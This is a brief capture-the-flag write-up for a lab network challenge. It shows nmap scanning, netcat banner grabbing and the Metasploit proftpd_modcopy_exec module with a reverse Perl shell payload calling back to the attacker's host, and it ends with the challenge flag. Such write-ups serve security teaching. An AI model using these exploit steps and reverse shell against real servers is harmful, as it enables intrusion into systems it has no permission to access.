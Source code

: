 ## NET200 - D0iT FXP

We are given access to a network through VPN, and we're told that 10.6.0.2 is our target.
Running *nmap -Pn 10.6.0.2* shows an FTP server running on port 21.

To check which FTP server this is, I ran *nc 10.6.0.2 21*.
Running netcat, we see that the FTP server is ProFTP 1.3.5. This is a vulnerable version of ProFTP with known exploits. We run Metasploit to search for exploits:

```
msf> search name:proftp type:exploit
```

We find an exploit named *exploit/unix/ftp/proftpd_modcopy_exec*. Then I check which IP address my own computer is by running *ip address* in bash, and fill in the options for the exploit. I use the payload *cmd/unix/reverse_perl*

```
set RHOST 10.6.0.2
set SITEPATH /var/www/html/temp
set TARGETURI /temp
set LHOST 10.6.0.100
exploit
```

On the FTP server we can list the files in the directory and run *cat flag.php* to get the flag:

Flag: `CTF{proftp_expl0it_jaw0hl}`